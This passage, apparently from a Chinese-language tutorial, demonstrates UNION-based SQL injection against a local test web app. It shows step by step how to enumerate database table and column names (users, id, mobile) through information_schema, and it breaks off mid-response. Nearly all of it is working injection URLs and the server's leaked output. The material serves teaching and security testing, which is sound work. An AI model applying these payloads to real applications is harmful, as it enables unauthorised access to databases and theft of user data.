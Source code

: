 ```
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "users",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 1,2#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,table_name from information_schema.tables where table_schema='test' limit 1,2#'",
    "Err": ""
  }
}
```
拿到了用户表名：users；
#### 第五步：暴字段名

```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 0,1%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "id",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 0,1#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 0,1#'",
    "Err": ""
  }
}
```
1、通过系统表information_schema.columns和数据库名test和表名users，暴露了第一个字段名id；<br>
2、递增limit，可以暴露出所有字段名；<br>
```
http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 1,2%23

{
  "code": 0,
  "message": "OK",
  "data": {
    "HashID": "1",
    "Title": "2",
    "Content": "mobile",
    "HashIDQuery": "iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 1,2#",
    "SQL": "select hash_id, title, content from articles where hash_id='iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 1,2#'",
    "Err": ""
  }
}

http://127.0.0.1:8080/article?hashID=iryTrPab4l8' and 1=2 union select 1,2,column_name from information_schema.columns where table_schema='test' and table_name ='users' limit 2,3%23

{
  "code": 0,
  "message": "OK",
  "data": {
```